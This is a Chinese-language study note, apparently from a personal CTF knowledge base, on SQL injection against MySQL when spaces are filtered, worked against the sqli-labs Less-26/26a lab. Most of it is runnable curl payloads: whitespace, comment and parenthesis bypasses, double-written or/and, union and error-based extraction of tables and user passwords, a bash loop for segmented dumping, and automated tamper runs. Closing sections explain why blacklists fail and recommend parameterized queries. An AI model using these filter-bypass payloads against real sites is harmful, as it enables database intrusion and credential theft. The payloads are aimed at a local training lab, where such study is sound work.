

# 05-过滤空格

> 所属知识库：[[SQL总目录|SQL 总目录]] / mysql 结构系列
>
> 上级章节衔接：[[../01-整数型注入|整数型注入]] 的标准五步在本章受限运行；payload 骨架来自 [[../03-报错注入|报错注入]]
>
> sqli-labs 对照：less-26、less-26a（过滤 or/and + 空格）
>
> 配套工具：`~/hackingtools/web/injection/sqlinject`（GitHub: [missercatos/tools](https://github.com/missercatos/tools)，本地位于仓库外 `/home/a/hackingtools`）

## 一、场景描述

服务端对输入做黑名单过滤，空格是最常见的被禁字符之一：

```php
// 典型过滤（less-26 原型）
$id = $_GET['id'];
$id = preg_replace('/[\/\*]/', '', $id);        // 注释符
$id = preg_replace('/[--]/', '', $id);          // 连字符
$id = preg_replace('/[#]/', '', $id);           // #
$id = preg_replace('/\s/', '', $id);            // 空白字符 ← 本章主角
$id = preg_replace('/or/i', '', $id);
$id = preg_replace('/and/i', '', $id);
```

空格被过滤后，`union select`、`order by`、`and 1=1` 这些含空格的骨架全部失效，必须用等价写法替代。

### 先判断过滤类型

| 探测输入 | 现象 | 过滤类型 |
|---------|------|---------|
| `1 union select 1,2,3` | 页面正常但无注入效果，去掉空格的 payload 生效 | 删除型（`\s` 替换为空） |
| `1%20union...` 直接 403/拦截页 | 拦截型（WAF 层） |
| `%09` 版 payload 生效而空格版被拦 | 只拦了字面空格，未归一化编码 |

判断方法决定方案选择：删除型可用双写/嵌套（如 `/**/` 内含被删字符），拦截型优先考虑编码变形。注意 less-26 是**删除型**——被删掉的 or/and 可以双写绕过（`oorr` 删一次剩 `or`），但空格删掉后无法用双写还原，必须换等价分隔符。

## 二、替代方案逐个验证（每条附可执行 curl）

约定靶场 `http://127.0.0.1/sqli-labs/Less-26/`，GET 注入注释符用 `%23` 或 `--+`。每个方案给出一条可直接执行的验证命令与预期效果对比。

### 方案一：内联注释 `/**/`

```bash
curl -s "http://127.0.0.1/sqli-labs/Less-26/?id=1'/**/order/**/by/**/3%23"
```

| 写法 | 效果 |
|------|------|
| `1' order by 3#` | 空格被删，语法粘连报错 |
| `1'/**/order/**/by/**/3%23` | 正常 → `/**/` 作为合法分隔符生效 |

MySQL 把 `/**/` 视为注释即空白，语义上完全等价于空格；还可嵌进关键字拆分：`un/**/ion/**/sel/**/ect`。

### 方案二：URL 编码空白 `%09 %0a %0b %0c %0d`

```bash
# %09 (Tab)
curl -s "http://127.0.0.1/sqli-labs/Less-26/?id=1'%09order%09by%093%23"
# %0a (LF)
curl -s "http://127.0.0.1/sqli-labs/Less-26/?id=1'%0aorder%0aby%0a3%23"
```

预期：`%09` 版在未解码就匹配黑名单的 WAF 后面常能穿透；`%0a` 版对按行处理日志/规则的检测层有效。两者到达 MySQL 时都被当作空白分隔符。若某编码无效果，说明中间件把它规范化或丢弃了，换下一个。

### 方案三：括号包裹 `()`

```bash
curl -s "http://127.0.0.1/sqli-labs/Less-26/?id=1'and(extractvalue(1,concat(0x7e,database())))%23"
```

| 写法 | 效果 |
|------|------|
| `' and extractvalue(...)#` | 含两个空格，全被删除后 `andextractvalue(...)` 语法错 |
| `'and(extractvalue(...))%23` | 零空格，函数调用天然不需要分隔符，直接生效 |

这是最通用的方案——所有报错注入都能改写成完全无空格形态。

### 方案四：字面 `%20` 与多空白

```bash
curl -s "http://127.0.0.1/sqli-labs/Less-26/?id=1'%20order%20by%203%23"
```

预期：对**拦截型**过滤（只匹配原始串里的空格但不解码）可能穿透；对 **`\s` 删除型**无效——`%20` 解码后还是空格照样被删。用它快速区分两类过滤：

```mermaid
flowchart TD
    A["发 id=1'%20union%20select%201,2,3"] --> B{响应?}
    B -->|正常回显| C[没有空格过滤, 直接打]
    B -->|403 拦截页| D[拦截型 WAF → 编码变形优先]
    B -->|页面正常但查询没执行| E[删除型 → /**/ () %09 替代]
```

### 方案五：其他冷门分隔符

```bash
# %0b (VT) / %0c (FF)：部分 WAF 白名单漏掉
curl -s "http://127.0.0.1/sqli-labs/Less-26/?id=1'%0border%0bby%0b3%23"
curl -s "http://127.0.0.1/sqli-labs/Less-26/?id=1'%0corder%0cby%0c3%23"
```

各数据库空白字符兼容速查：

| 字符 | MySQL | PostgreSQL | MSSQL | Oracle |
|------|-------|-----------|-------|--------|
| `%09` Tab | 是 | 是 | 是 | 否 |
| `%0a` LF | 是 | 是 | 是 | 部分 |
| `%0c` FF | 是 | 否 | 是 | 否 |
| `/**/` | 是 | 是 | 是（部分版本） | 是 |
| `+` | 否 | 否 | **是** | 否 |

MSSQL 特有：`+` 即空格；Oracle 基本只能靠 `/**/`。CTF 主战场仍是 MySQL，此表用于跨库题目参考。注意 `+` 仅在 GET query string 中解析为空格，POST body 里是字面加号。

### 方案效果横向对比

| 方案 | 穿透删除型 | 穿透拦截型 | 零依赖（注释也被禁时） | 备注 |
|------|-----------|-----------|----------------------|------|
| `/**/` | 是 | 视解码层 | 否 | 首选，但常与空格同入黑名单 |
| `()` 括号化 | 是 | 是 | **是** | 最通用，order by 除外 |
| `%09 %0a` | 是 | 常见 | 是 | 取决于中间件规范化 |
| `%0b %0c` | 是 | 更常见 | 是 | 白名单冷门位 |
| `%20` | 否 | 视解码层 | 是 | 用于判别过滤类型 |
| `+` | 是 | 是 | 是 | 仅 GET query string |

实战顺序建议：先 `%20` 判型 → 删除型用 `/**/` → 被禁则 `()` → 编码类逐个 fuzz。

## 二-附、less-26 的 or/and 过滤配合

less-26 除空格外还删 or/and，两套过滤叠加时的组合拳：

### 双写绕过 or/and

```bash
# oorr 删一次剩 or; anandd 删一次剩 and
curl -s "http://127.0.0.1/sqli-labs/Less-26/?id=1'%a0oorr%a0'1'='1"
curl -s "http://127.0.0.1/sqli-labs/Less-26/?id=1'%a0anandd%a0updatexml(1,concat(0x7e,database()),1)%a0and%a0'1'='1"
```

注意双写只对"替换一次"的正则有效；若服务端循环删除（`preg_replace` 只跑一遍是常态，跑循环的是少数），双写失效，改用 `||` 与 `&&`：

```bash
# || 替代 or（URL 编码 %7c%7c），&& 替代 and（%26%26）
curl -s "http://127.0.0.1/sqli-labs/Less-26/?id=1'%7c%7c%0aupdatexml(1,concat(0x7e,database()),1)%0a%7c%7c'1"
```

### information_schema 的连带问题

`information_schema` 本身含字符串 "or"——`information_schema` 里没有独立 or 单词，但表名过滤若按子串匹配 `or` 会把 `information_schema` 也破坏。验证方法：

```bash
# 若爆表结果异常, 用双写形式测试
.../**/from/**/infoorrmation_schema.tables...
```

同理 `concat` 含无敏感词不受影响，但部分关卡连 `union/select` 都删，此时用 `un/**/ion/**/sel/**/ect` 把被删词拆开——内联注释既当分隔符又当拆词器。

### less-26a 差异

闭合方式从单引号变为单引号+括号（数字型变体），payload 外壳变化、五步内核不变：

```bash
curl -s "http://127.0.0.1/sqli-labs/Less-26a/?id=1')%0a||%0a'1"
curl -s "http://127.0.0.1/sqli-labs/Less-26a/?id=-1')/**/union/**/select/**/1,database(),3%23"
```

## 三、五步流程的"零空格版"完整实操

约束设定：目标过滤所有空白与 and/or（less-26 变体），统一用 `/**/` 替代空格、`||` 替代 or、`&&` 替代 and（URL 里写 `%26%26`）、注释符 `%23`。逐步走完五步链。

### 第一步：确认注入点存在

```bash
# 单引号试探
curl -s "http://127.0.0.1/sqli-labs/Less-26/?id=1'"
# 有 MySQL 报错 → 引号闭合 + 报错通道存在

# 真假对比（|| 替代 or，%% 无空格拼接）
curl -s "http://127.0.0.1/sqli-labs/Less-26/?id=1'||'1"
# 页面正常显示用户数据

curl -s "http://127.0.0.1/sqli-labs/Less-26/?id=1'||'2"
# 页面异常/无数据 → 差异确认注入成立
```

### 第二步：探测列数

```bash
curl -s "http://127.0.0.1/sqli-labs/Less-26/?id=1'/**/order/**/by/**/3%23"
# 正常

curl -s "http://127.0.0.1/sqli-labs/Less-26/?id=1'/**/order/**/by/**/4%23"
# Unknown column '4' in 'order clause' → 3 列
```

### 第三步：爆当前数据库

```bash
curl -s "http://127.0.0.1/sqli-labs/Less-26/?id=-1'/**/union/**/select/**/1,database(),3%23"
# 回显位显示 security

# 报错路线备选（|| 替代 or，零空格）
curl -s "http://127.0.0.1/sqli-labs/Less-26/?id=1'||updatexml(1,concat(0x7e,database()),1)||'1"
# XPATH syntax error: '~security'
```

### 第四步：information_schema 爆表

```bash
curl -s "http://127.0.0.1/sqli-labs/Less-26/?id=-1'/**/union/**/select/**/1,group_concat(table_name),3/**/from/**/information_schema.tables/**/where/**/table_schema=database()%23"
# emails,referers,uagents,users
```

若 `/**/` 也被过滤，退化为纯括号写法：

```bash
curl -s "http://127.0.0.1/sqli-labs/Less-26/?id=1'union(select(1),(select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),3)%23"
```

`from(表)`、`where(条件)` 的括号形式是 MySQL 合法语法——这条命令展示了 from/where 全部括号化的极限压缩。

### 第五步：爆列并提取数据

```bash
# 爆列
curl -s "http://127.0.0.1/sqli-labs/Less-26/?id=-1'/**/union/**/select/**/1,group_concat(column_name),3/**/from/**/information_schema.columns/**/where/**/table_name='users'%23"

# 提取账号密码
curl -s "http://127.0.0.1/sqli-labs/Less-26/?id=-1'/**/union/**/select/**/1,group_concat(username,0x3a,password),3/**/from/**/users%23"
# Dumb:Dumb, Angelina:I-kill-you, ...
```

### 五步链对照表

| 步骤 | 标准版（有空格） | 零空格版 |
|------|----------------|---------|
| 确认注入 | `1' and '1'='1` | `1'and('1')=('1` 或 `1'\|\|'1` |
| 探列数 | `1' order by 3#` | `1'/**/order/**/by/**/3%23` |
| 爆库 | `-1' union select 1,database(),3#` | `-1'/**/union/**/select/**/1,database(),3%23` |
| 爆表 | `... from information_schema.tables where ...` | `/**/from/**/.../**/where/**/...` |
| 提数据 | `group_concat(username,0x3a,password) from users` | `group_concat(username,0x3a,password)/**/from/**/users` |

结构不变，只把空格统一替换成一种可用分隔符——先在一个短 payload 上验证替换方案可行，再批量套用到整条链。

## 四、payload 改写速查

### 报错注入

```sql
-- 原版
' and extractvalue(1,concat(0x7e,database()))#
-- 括号方案（零空格）
'and(extractvalue(1,concat(0x7e,database())))#
-- 注释方案
'/**/and/**/extractvalue(1,concat(0x7e,database()))#
```

### 布尔盲注

```sql
-- 原版
' and ascii(substr(database(),1,1))>100 and '1'='1
-- 零空格版
'and(ascii(substr(database(),1,1))>100)and'1
```

### 组合与优先级策略



要点：

1. `/**/` 最省事但常与空格一起进黑名单，先试
2. 括号方案最通用——所有函数调用写法都能做到完全无空格
3. `%09/%0a/%0b/%0c/%0d` 在 Burp 的 Intruder 里逐个 fuzz 最快，字典：`%09 %0a %0b %0c %0d %20 %2b %a0`
4. 多重过滤时把各方案叠加：`%0a/**/%09` 这类混合体有时反而能过
5. `%a0` 在 Apache 老版本加 Windows 环境会被当作不换行空格处理，是经典组合漏洞点

## 五、WAF 视角：过滤空格为什么意义有限

从防御方立场审视这个设计，会发现它性价比极低：

| 局限 | 说明 |
|------|------|
| 语义等价物太多 | MySQL 接受至少五种空白字符外加 `/**/` 与括号化写法，删一个空格防不住任何一个 |
| 误伤正常业务 | 正常参数中的空格（搜索词、地址栏）也被破坏，业务代价大于安全收益 |
| 攻击成本近乎为零 | 替换脚本一行搞定，攻击者把模板里的空格批量换成 `/**/` 即可 |
| 检测层易被欺骗 | 未归一化解码前匹配原始串，`%09` 直接穿透；归一化了又容易绕出新的不一致 |
| 本质是补丁思维 | 空格过滤是在替"字符串拼接 SQL"这个根因擦屁股 |

正确的防御层次：参数化查询根治 → 白名单校验参数格式 → WAF 只做辅助检测且必须先归一化。**黑名单永远追不完语义等价物**，这是本章最重要的防御结论。

## 六、例题思路表

| 题目特征 | 判断 | 主打打法 |
|---------|------|---------|
| payload 含空格即失效，去空格有戏 | 删除型过滤 | `/**/` / `()` / `%09` 三选一跑五步（less-26） |
| 空格版直接 403 拦截页 | 拦截型 WAF | 编码变形 `%0b %0c %a0` 优先 |
| and/or 同时失效 | 组合过滤 | `\|\|` `&&` 替代配合空格替代 |
| 连注释符都被禁 | 极限环境 | 纯括号写法 + 引号自闭合 |
| 数字型闭合变体 | less-26a | `1')||'1` 类闭合，其余相同 |

拿到过滤型题目时的标准开场：发一个含全部敏感元素的探针（空格、and、or、union、select、注释符各一份），从响应反推黑名单清单，再按本章方案表逐项配平。探针示例：

```text
1' union select and or /**/ --+ #
```

对照回显与报错信息，缺什么补什么替代，两三轮内即可定稿 payload。

## 七、坑位速查

| 坑 | 说明 |
|----|------|
| `+` 用在 POST 里失效 | `+` 只在 GET query string 被解析为空格，body 里要用 `%20` 或注释 |
| `/**` 不配对导致语法错误 | 注释必须完整 `/**/`，且部分 WAF 会剥一层注释 |
| `%0b` 在某些中间件被丢弃 | Tomcat/Nginx 组合可能规范化垂直制表符，先验证再批量用 |
| 双写不适用于空格 | 双写针对"替换一次"型过滤；`\s+` 全删型无法用双写还原 |
| 括号方案在 order by 失效 | 排序位置不能整体括号化，只能靠注释/编码替代空格 |
| URL 编码双重进行 | curl 不自动编码，手写 `%09` 即可；但放进Burp 再转发时留意二次编码 |
| 忘记换注释符 | GET 里 `#` 必须 `%23`，裸 `#` 会被当成锚点截断参数 |
| 报错回显被截断忘分段 | 零空格版同样受 32 字符限制，长结果仍需 substr 分段 |
| 括号化后引号闭合遗漏 | `'union(select(...))#` 结尾括号数量要与开头配平，多一个少一个都语法错 |

### 零空格报错注入的分段提取

空格约束叠加 32 字符窗口时，分段循环照常工作，只是 payload 用 `||` 与括号：

```bash
SUB="select(group_concat(username,0x3a,password))from(users)"
for ((off=1; off<=150; off+=25)); do
  curl -s "http://127.0.0.1/sqli-labs/Less-26/?id=1'%7c%7c(updatexml(1,concat(0x7e,substr(($SUB),$off,25)),1))%7c%7c'1" \
    | grep -o "~[^']*" | head -1
done
```

## 八、自动化：sqlinject.py 工具

内置 tamper 机制自动完成空格到注释的替换，五步链全程免手工改写：

```bash
cd ~/hackingtools/web/injection

# space2comment: 空格 → /**/
./sqlinject.py -u "http://127.0.0.1/sqli-labs/Less-26/?id=1" --tamper space2comment

# 多重过滤组合 tamper（空格 + 大小写混淆）
./sqlinject.py -u "http://127.0.0.1/sqli-labs/Less-26/?id=1" --tamper space2comment,randomcase

# 自定义单发验证某个替代方案是否可行
./sqlinject.py -u "http://127.0.0.1/sqli-labs/Less-26/?id=1" \
               --custom "1'/**/order/**/by/**/3#"
```

先用 `--custom` 手工确认哪个分隔符能过过滤，再把对应 tamper 交给工具跑全流程；参数细节见 `~/hackingtools/web/injection/sqlinject`（GitHub: [missercatos/tools](https://github.com/missercatos/tools)，本地位于仓库外 `/home/a/hackingtools`）。

## 九、防御

| 措施 | 说明 |
|------|------|
| 参数化查询 | 根治。空格过滤本质是在补拼接的锅 |
| 黑名单过滤注定漏 | `\s` 删得掉空格删不掉语义等价物，黑名单永远追不完 |
| 白名单校验参数格式 | id 强制整数、排序字段走映射表 |
| WAF 层注意解码顺序 | 对 %09~%0d 与多级编码统一归一化后再匹配 |
| 监控语义而非字符 | 检测 SQL 语法结构（如 AST 分析）比匹配字符可靠得多 |

---

**返回** [[SQL总目录|SQL 总目录]] · [[mysql结构总目录|mysql结构 总目录]] · 工具 `~/hackingtools/web/injection/sqlinject`（GitHub: [missercatos/tools](https://github.com/missercatos/tools)，本地位于仓库外 `/home/a/hackingtools`） · 相关 [[../01-整数型注入|整数型注入]] [[../03-报错注入|报错注入]]
